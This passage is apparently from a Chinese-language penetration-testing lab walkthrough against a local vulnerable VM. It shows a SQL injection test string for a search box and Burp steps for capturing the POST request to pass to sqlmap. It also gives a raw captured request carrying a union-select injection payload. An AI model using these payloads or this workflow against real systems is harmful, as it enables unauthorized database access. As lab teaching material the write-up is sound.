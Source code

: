 ```
http://192.168.81.145/manage.php
```

![image-20220322144428594](https://gitee.com/xxb667/img/raw/master/img/image-20220322144428594.png)

# 2.漏洞探测

## 2.1 SQL注入

在搜索框里，我们可以进行sql注入判断是否有sql注入漏洞

```
Mary' and 1=1#
```

数据正常显示，说明存在sql注入漏洞

![image-20220322145110773](https://gitee.com/xxb667/img/raw/master/img/image-20220322145110773.png)

## 2.2 sqlmap获得数据库

获得post文件

- 用burp对网站数据进行抓包
- 获得post文件
- 并把文件中的内容复制，粘贴到一个txt文件里面
- 然后把这个文件复制到kali中
- 并在文件的路径下打开终端运行sqlmap

burp抓包

![image-20220322145409971](https://gitee.com/xxb667/img/raw/master/img/image-20220322145409971.png)

抓取到的内容

注意：

抓包时一定要抓出现结果的那个地址

```
POST /results.php HTTP/1.1
Host: 192.168.81.145
Content-Length: 63
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.81.145
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.81.145/search.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=eaprmj9t8g7uuc8240bpe0h02q
dnt: 1
sec-gpc: 1
Connection: close

search=-1%27+union+select+database%28%29%2C1%2C2%2C3%2C4%2C5%23
```
